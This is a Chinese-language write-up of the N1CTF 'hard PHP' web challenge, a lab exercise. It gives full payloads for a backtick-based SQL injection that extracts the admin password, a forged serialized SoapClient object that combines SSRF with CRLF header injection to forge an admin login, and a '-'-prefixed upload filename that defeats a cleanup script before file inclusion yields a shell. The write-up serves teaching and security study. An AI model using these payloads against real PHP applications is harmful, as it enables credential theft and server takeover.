


## N1CTF hard PHP Writeup

这个题目非常的有意思，做题的时候真的感觉到了php有多硬（hard被我强行翻译为硬）。

题目的代码和部署环境都在[这里](https://github.com/wonderkun/CTF_web/tree/master/web600-1?1520941487499)，比赛的时候没时间做的还有机会去看。

### 0x1 代码审计，发现漏洞

首先是源码泄露，下载到所有的代码，就不用说了。另外还给了docker的部署环境。

```dockerfile
FROM andreisamuilik/php5.5.9-apache2.4-mysql5.5
ADD nu1lctf.tar.gz /app/
RUN apt-get update
RUN a2enmod rewrite
COPY sql.sql /tmp/sql.sql
COPY run.sh /run.sh
RUN mkdir /home/nu1lctf
COPY clean_danger.sh /home/nu1lctf/clean_danger.sh
RUN chmod +x /run.sh
RUN chmod 777 /tmp/sql.sql
RUN chmod 555 /home/nu1lctf/clean_danger.sh
EXPOSE 80
CMD ["/run.sh"]
```

php的版本是5.5.9,比较老。

先在`config.php`看到了全局过滤：

```php
function addslashes_deep($value)
{
    if (empty($value))
    {
        return $value;
    }
    else
    {
        return is_array($value) ? array_map('addslashes_deep', $value) : addslashes($value);
    }
}
function addsla_all()
{
    if (!get_magic_quotes_gpc())
    {
        if (!empty($_GET))
        {
            $_GET  = addslashes_deep($_GET);
        }
        if (!empty($_POST))
        {
            $_POST = addslashes_deep($_POST);
        }
        $_COOKIE   = addslashes_deep($_COOKIE);
        $_REQUEST  = addslashes_deep($_REQUEST);
    }
}
addsla_all();
```

这样过滤之后，简单的注入就不存在了。

在`user.php`中看到`insert`函数，代码如下：

```php
 private function get_column($columns){
        if(is_array($columns))
            $column = ' `'.implode('`,`',$columns).'` ';
        else
            $column = ' `'.$columns.'` ';
        return $column;
    }    
public function insert($columns,$table,$values){

        $column = $this->get_column($columns);
        $value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';
        $nid =
        $sql = 'insert into '.$table.'('.$column.') values '.$value;
        $result = $this->conn->query($sql);
        return $result;
    }
```

看对`$value`的操作，先将`$value`数组的每个值用反引号引起来，然后再用逗号连接起来，变成这样的字符串：

```
`$value[0]`,`$value[1]`，`$value[1]`
```

然后再执行

```php
$value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';
```

核心操作是如果一对反引号中间的内容不存在逗号和反引号，就把反引号变为单引号,所以`$value`就变为了

```
('$value[0]','$value[1]'，'$value[1]')
```

但是如果`$value`元素本身带有反引号，就会破坏掉拼接的结构，在做反引号变为单引号的时候造成问题，比如说:

```
考虑$value为 : array("admin`,`1`)#","password")
经过处理后，就变为了 : ('admin','1')#`,'password' )
相当于闭合了单引号，造成注入。
```

看到`insert`函数在`publish`函数中被调用，并且存在`$_POST['signature']`变量可控，注入点就在这里：

```php
  @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
```

### 0x2 通过注入拿到管理员密码

**开始是这样想的**

写注入payload的部分是在 `$mood`中,这是一个序列化后的`Mood`类,好像没法直接出数据，用盲注又太麻烦，但是因为mysql的insert可以一次插入多条数据：

```sql
insert into table (`username`,`password`) values ('user1','pass1'),('user2','pass2')
```

所以这里可以通过`$_POST['signature']`一直往后覆盖，把输出点放到下一条数据的的`$_POST['signature']`字段，但是问题来了，我不知道自己的`userid`,插入进去也看不到啊。。（因为我没发现竟然可以包含session，包含session之后就看到`userid`了，这是一种思路).下面是我当时的做法。

**我的做法**

我看了看代码之后，发现其实 `Mood`本身就有输出点的，在`views/index`页面:

```Php
echo htmlentities($data['data'][$i]['sig'])."<br><br>";
$mood = (int)$data['data'][$i]['mood']['mood'];
echo "<br><br>";
echo "published ".$data['data'][$i]['subtime']."<br>";
```

`Mood`类的`mood`参数被直接输出到页面中了,但是需要注意的是进行了一个int类型的转换,如果可以伪造`Mood`类的`mood`属性就可以了。

```php
$mode = new Mood((int)"1","114.114.114.114");
$mode->data = "0";  // 把data设置为0，可以直观的从页面的publish time中看到注入的数据是否被成功反序列化
echo serialize($mode);
//O:4:"Mood":4:{s:4:"mood";i:1;s:2:"ip";s:15:"114.114.114.114";s:4:"date";i:1520912184;s:4:"data";s:1:"0";}
```

现在来解决整形的问题，因为在php中,最大的整形是8个字节，所以有32个字节的数据，分四次读出，每次8个字节，转化为10进制。

```php
php > echo dechex(PHP_INT_MAX);
7fffffffffffffff
```

最后注入的payload为：

```
signature=username`,concat(`O:4:"Mood":3:{s:4:"mood";i:`,(select conv(hex((select mid((select password from ctf_users where is_admin=1 ),1,8))),16,10)),`;s:2:"ip";s:15:"114.114.114.114";s:4:"date";s:1:"0";}`))#&mood=0
```


然后访问首页就可以看到有这样的一个请求：


然后再mysql中执行:

```mysql
mysql> select unhex(conv("3617854171513108786",10,16));
+------------------------------------------+
| unhex(conv("3617854171513108786",10,16)) |
+------------------------------------------+
| 2533f492                                 |
+------------------------------------------+
```

求出前八位，然后依次类推求出后面的24位，最后解密的得到管理员的账号密码为：

```
admin:nu1ladmin
```

### 0x3 巧妙的构造SSRF-神来之笔 

拿到管理员账号密码之后，发现有ip限制，不能登录。然后题目放出提示说要SSRF。

代码就这么点，哪有SSRF啊？思路一致跑偏，以为是服务器上其他的软件漏洞导致的SSRF，无果。

再仔细想想，我们目前的漏洞其实有两个了：

1.  sql注入
2. 伪造任意的php内置类

然后受到[http://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault](http://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault)这个题目的影响，一直在想php的其他内置类是否有跟`Mood`类一样的方法，这显然是不现实的，没有可能那个内置类会有`getcountry`这样的方法。后来在跟队友的讨论中想到了php的`__call`的魔术方法 ：


也就是说，在调用一个类的不可访问的方法的时候，就会去调用`__call`方法。

所以我们只需要找到一个类，重载了__call方法，并且可以发请求的就可以了,然后找到了`soapClient`这个类：

示例如下：

```php
$client = new SoapClient(null, array('location' => "http://127.0.0.1:9999",
                                     'uri'      => "http://test-uri/"));
$se = serialize($client); 
var_dump($se);
$unse = unserialize($se);
$unse -> getcountry();
```

然后就会发现发送了下面的一个数据包：

```php
POST / HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/5.5.9-1ubuntu4.11
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://test-uri/#getcountry"
Content-Length: 386

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://test-uri/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

这样我们就有了SSRF，可以发请求了。我们需要的是用SSRF来登录管理员账号，这里的soapClient只可以用来发送xml的数据，而且`Content-Type`也不符合要求，那怎么办呢？ 

### 0x4 CRLF来助攻，伪造登录请求

根据我的测试，soapClient存在CRLF的参数有两个,一个是`user_agent`,一个是`uri`。

测试代码如下：

**user_agent**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\ntest:test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

//收到的请求为
/*
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
test:test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/#getcountry"
Content-Length: 387

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```

**uri**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/\r\ntest:test";
$event = new SoapClient(null,array('user_agent'=>"test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

/*
  收到的请求：
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
test:test#getcountry"
Content-Length: 398

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/
test:test" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```

因为请求体一定在可注入点的后面，所以我们不需要担心。无论CRLF的注入点在哪，我们都可以轻松的利用CRLF向下覆盖，重写请求体。

这里的关键是在请求头，因为在HTTP协议中，当请求头中有相同的键值的时候，是一第个为准的。

比如这样的一个请求：

```
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
Content-Type: application/x-www-form-urlencode
Content-Length: 398
```

服务器解析时识别的`Content-Type`为`text/xml; charset=utf-8`,但是我们想post表单，要要求它为`application/x-www-form-urlencode`

所以注意看两个请求的注入点位置，显然`uri`的CRLF注入点在`Content-Type`的后面，没把法修改`Content-Type`,利用起来有点难度，所以先讲 `user_agent`这个注入点。

#### 利用user_agent这个CRLF注入点

下面是利用代码,生成注入数据：

```php
$location = "http://127.0.0.1/index.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\nCookie: PHPSESSID=08jl0ttu86a5jgda8cnhjtvq32\r\nContent-Type: application/
x-www-form-urlencoded\r\nContent-Length: 45\r\n\r\nusername=admin&password=nu1ladmin&code=470837\r\n\r\n\r\n",'location'=>$location,
'uri'=>$uri));
$c = (serialize($event));
var_dump(urlencode($c));
```

这里的`PHPSESSID`换成一个还没有登录过的session，验证码换成自己的，注入这条数据之后：


```
signature=username`,`O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A39%3A%22http%3A%2F%2F127.0.0.1%2Findex.php%3Faction%3Dlogin%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A174%3A%22test%0D%0ACookie%3A+PHPSESSID%3D08jl0ttu86a5jgda8cnhjtvq32%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+45%0D%0A%0D%0Ausername%3Dadmin%26password%3Dnu1ladmin%26code%3D164760%0D%0A%0D%0A%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D`)#&mood=0
```


然后再用刚才的那个`session`访问一下,访问一下首页，就拿到管理员权限了。

#### 利用uri这个CRLF注入点

根据刚才分析，知道uri这个注入点没办法伪造`Content-Type` 但是难道就不能利用了么？ 

（这次跟着@magicBlue学了一招）看请求，注意到一个细节`Connection: Keep-Alive` ,说明这是一个长http连接，有什么用呢，来测试一下：

写一个测试代码如下：

```php
//2.php 
<?php 
    var_dump($_GET);
    var_dump($_POST);
```

做下面的测试：



可以发现当第一个请求的`Connection: Keep-Alive`的时候，接着的那个请求也会被响应。也就是说在一次HTTP连接中可以同时又多个HTTP请求头和请求体，但是当前请求被响应的前提是，前一个请求有`Connection: Keep-Alive` 。 （测试的时候需要注意`Content-Length`字段，需把burp中的`repeater->update content-length`选项关掉）

**这里就也给了我们一个很重要的启示，如果我们遇到一个GET型的CRLF注入，但是我们需要的却是一个POST类型的请求，就可以用这种方式，在第一个请求中注入一个`Connection: Keep-Alive`,然后接着往下注入第二个请求，就可以实现我们的目的。**

这里写一下payload：

```php
$uri = "http://www.baidu.com/?test=blue\r\nContent-Length: 0\r\n\r\n\r\nPOST /index.php?action=login HTTP/1.1\r\nHost: 127.0.0.1\r\nCookie: PHPSESSID=52m5ugohiki56gds9c6t71rj92\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 45\r\nConnection: Close\r\n\r\nusername=admin&password=nu1ladmin&code=435137\r\n\r\n\r\n";
$location = "http://127.0.0.1/test";  //注意这里一定不要写 index.php?action=login,否则第一个请求会改变验证码的值
$event = new SoapClient(null,array('location'=>$location,'uri'=>$uri));
echo  urlencode(serialize($event));
```


这两种方法都可以拿到管理员权限。

### 0x5利用bash的特性，绕过删除

拿到管理员权限之后，就可以上传了，但是有个坑点：

```php
$file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
```

```bash
# /home/nu1lctf/clean_danger.sh
cd /app/adminpic/ 
rm *.jpg 
cd /var/www/html/adminpic/ 
rm * 
```

开始没有仔细看代码，以为用短标签就可以直接绕过了。（记得phithon师傅说过，php5.5.x版本有个bug，php.ini中的short_open_tag => Off是不起作用的）

所以一直拿不到shell，后来自己来看代码才发现：

```php
stripos(file_get_contents($move_to_file),'<?php')>=0  // 这里是>= 
    // flase是 >= 0的，所以无论传啥都会给删了。
```

那就是要传一个`rm *.jpg`删不掉的，马上想到之前学习linux的时候遇到的一个文件删不掉的问题

```bash
root@9f4b226f92c1:/app/test# ls
-test.jpg  1.php
root@9f4b226f92c1:/app/test# rm *.jpg
rm: invalid option -- 't'
Try 'rm ./-test.jpg' to remove the file '-test.jpg'.
Try 'rm --help' for more information.root@9f4b226f92c1:/app/test# ls
-test.jpg  1.php
root@9f4b226f92c1:/app/test# rm *rm: invalid option -- 't'
Try 'rm ./-test.jpg' to remove the file '-test.jpg'.
Try 'rm --help' for more information.
root@9f4b226f92c1:/app/test# ls
-test.jpg  1.php
```

这估计是因为 bash在做`*`符号展开之后，直接把`-test.jpg`传给了`rm`命令，然后`rm`命令就把`-`后面内容全部作为参数解析，导致命令执行失败。

所以只需要上传一个以`-`开头的文件，就删除不掉了。

上传完成之后，不知道为啥文件不再首页显示，必须要爆破一下，然后利用文件包含拿到shell。



### 0x6 启示

做完这个题，真的是更加深刻的体会到了安全是一个面，知识点无处不在啊，还是要多学习各种知识啊。

最后不得不佩服出题人宽泛的知识体系，膜拜一下。


